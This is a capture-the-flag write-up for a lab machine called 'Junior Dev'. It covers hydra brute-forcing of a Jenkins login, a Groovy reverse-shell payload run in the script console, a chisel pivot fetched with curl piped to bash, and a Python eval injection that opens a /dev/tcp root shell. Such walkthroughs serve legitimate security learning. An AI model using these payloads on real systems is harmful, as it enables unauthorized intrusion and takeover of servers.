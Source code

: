 # Junior Dev

***
## Difficulty = Medium

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/cd3ad44f-1954-4968-91ef-3fd8d3b06b12)

***


Running our nmap scan we have :


```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-23 20:57 EDT
Nmap scan report for 10.150.150.38
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
30609/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.85 seconds
nmap -p22,30609 -sCV 10.150.150.38
```


Nice, decided to check port `22/SSH` if there are any banners


![](https://i.imgur.com/BLyzO03.png)


Cool, No banners, let check out the port running on `30609/HTTP`


![](https://i.imgur.com/wXYfe9k.png)

We have a login page, Trying out **directory bruteforce** , i found some endpoints but they where not all worth it (Rabbit holes 🐇)

![](https://i.imgur.com/iQXXFe1.png)

Well i navigated to `/robots.txt` and we have this message - **"# we don't want robots to click "build" links"**, Looks like a clue to something 🤔

![](https://i.imgur.com/NGHmO0U.png)


I decided to **view-page source** of the Jenkins login page and i saw this particular [**"action="j_acegi_security_check"**](https://community.jaspersoft.com/questions/514519/about-acegi) which is more of like an entry point for authentication



![](https://i.imgur.com/vZLZE3i.png)



So i decided to take a look at this tryhackme forum [discussion](https://tryhackme.com/forum/thread/630f5aa391a3470044dd86f1) which led me to bruteforcing the login page with hydra, using the following syntax


```bash
$ hydra 10.150.150.38 -s 30609 -l admin -P /usr/share/wordlists/rockyou.txt  -V http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Logi
n:F=Invalid username or password'
```



**_Output :_**


![](https://i.imgur.com/1k9OoPk.png)


Now that we have Username and Password, we can go ahead and login


![](https://i.imgur.com/cxJ5DTw.png)


Next, Navigate to **Manage Jenkins** on the side menu bar

![](https://i.imgur.com/Vv198jR.png)

Scroll down and select select **Script console**

![](https://i.imgur.com/3Y43Y7Z.png)

Now start up your `netcat` listener on port `8044` and paste in this payload on the console and click **Run**


```
String host="10.66.66.246";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

You should get your reverse shell back as **Jenkins**

![](https://i.imgur.com/m2N0Tcb.png)


### **Pivoting**

After much enumeration on finding password in config files, SUID, SUDO, capabilities etc nothing was found but running `netstat -ant` gives us a port `8080` listening on `127.0.0.1`

![](https://i.imgur.com/ZetKJio.png)


- Download chisel with following command

```bash
$ curl https://i.jpillora.com/chisel! | bash
```

- Send it to our target using `python` and `wget`

```bash
# Attacker
$ python3 -m http.server 80

# Target
$ wget ATTACKER-IP/chisel
```


- Now on attacker's machine start up chisel with the following command

```bash
$ chmod +x chisel
$ ./chisel server -p 8001 --reverse
```

- On target machine start up chisel with

```bash
$ chmod +x chisel
$ ./chisel client ATTACKER-IP:8001 R:8080:127.0.0.1:8080
```


![](https://i.imgur.com/80FEBaK.png)


Now we can navigate to `http://127.0.0.1:8080` on our browser and we have this :


![](https://i.imgur.com/HY7B7rK.png)


**Viewing Page-Source** we have a commented `img` tag


![](https://i.imgur.com/I6C8iH8.png)



Navigating to `/static/FLAG.png` we have **FLAG71**



![](https://i.imgur.com/jzLMFxs.png)



### **Privilege Escalation**

Running [pspy](https://github.com/DominicBreuker/pspy) on our target system we have a root process that is actively running at the server side of the website we have `http://127.0.0.1:8080`

![](https://i.imgur.com/MI0Ar3z.png)


Immediately, my mind went to [**python command injection**](https://vk9-sec.com/exploiting-python-eval-code-injection/) since this process is running a file called `untitled.py` with `/usr/bin/python`, we can then -:

- start up our listener

```bash
$ nc -lvnp 3000
```

- Inject the python payload in the first box on the website to get reverse shell


```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.246/3000 0>&1" ')#
```


Then we got reverse shell as user **root**


![](https://i.imgur.com/Ck88NLU.png)



**_Things i would take note of :_**

- First of all **pivoting** isn't new to me, except for the fact that i had to edit my `/etc/proxychains4.conf` file in other to be able to have access to that specific port, Over here we just accessed it directly because we forwarded traffic from the local port `8080` on our machine to port `8080` on our attacker machine with the IP address `127.0.0.1` (localhost).
- Secondly, **Python Command Injection** seems new to me here and took me hours before i could figure it out, i once did something like this but never knew it was python command injection, it consists of using the `eval` built-in function which takes a single argument and can be a powerful tool for dynamic code execution.



**Have Fun**


![](https://media.tenor.com/qsdqhlumpMYAAAAC/anime-bankai.gif)



